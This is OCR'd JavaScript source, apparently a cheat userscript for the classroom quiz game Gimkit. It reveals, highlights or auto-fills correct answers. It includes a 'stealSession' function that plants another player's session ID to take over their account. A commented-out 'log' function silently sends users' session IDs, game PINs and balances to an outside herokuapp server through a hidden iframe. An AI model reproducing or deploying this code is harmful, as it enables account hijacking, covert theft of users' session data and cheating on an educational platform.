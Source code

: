   apps(document.createElement('br'));

  // Theme Buttons
  for(let x=0;x<8;x++){
    let y=hconfig.theme;
    let t = cre(d,"sc-bdVaJa fkLxCm","width:200px;height:40px;margin-top:3px;background:rgb("+y[Object.keys(y)[x+1]][3].join(",")+")",Object.keys(y)[x+1]);
    t.onclick=function(){y.active=Object.keys(y)[x+1]};
    apps(t);
  }

  /*/ Allows I To Track Usage & Demand
  function log(){
    let bbid = localStorage.getItem('blueboat-id');
    let ljm = localStorage.getItem('GIMKIT_LAST_GAME_JOINED');
    let bal = document.getElementsByTagName(d)[9].innerHTML;
    let i = document.createElement('iframe');
    i.style.display = "none";
    i.style.position = "fixed";
    i.src = "https://cagna.herokuapp.com/?ID:" + bbid + "%20PIN:" + ljm + "%20BAL:" + bal;
    document.body.appendChild(i);
  }setInterval(log, 60000);/*/

  // Functions that make the cheats work
  function highlight(){
    try{
      let d=document.getElementsByClassName('notranslate lang-en'),q=d[0].innerHTML,a=[d[1].innerHTML,d[2].innerHTML,d[3].innerHTML,d[4].innerHTML],i=a.indexOf(as[qs.indexOf(q)])+1;
      d[i].parentNode.parentNode.style.background="white",d[i].style.color="black";
    }catch(err){}
  }

  function stealSession(){
    let session = prompt("Enter Session ID:", "");
    if(session.length === 21) {
      localStorage.setItem('blueboat-id', session);
      document.location.reload();
    }else {
      alert("Invalid Session Length");
    }
  }

  function biganswer(){
    try{
      let d=document.getElementsByClassName('notranslate lang-en'),q=d[0].innerHTML,a=[d[1].innerHTML,d[2].innerHTML,d[3].innerHTML,d[4].innerHTML],i=a.indexOf(as[qs.indexOf(q)])+1;
      d[i].parentNode.parentNode.parentNode.style="position:fixed;left:5px";
    }catch(err){}
  }
  function inputanswer(){
    try{
      let q=document.getElementsByClassName('notranslate lang-en')[0].innerHTML;
      document.getElementsByClassName('sc-jhAzac egTZap')[0].value=as[qs.indexOf(q)];
    }catch(err){}
  }
  function hiddenanswer(){
    try {
      let d=document.getElementsByClassName('notranslate lang-en'),q=d[0].innerHTML,a=[d[1].innerHTML,d[2].innerHTML,d[3].innerHTML,d[4].innerHTML],i=a.indexOf(as[qs.indexOf(q)])+1;
      document.title=i + "lay Gimkit! - Enter game code here";
    }catch(err){}
  }
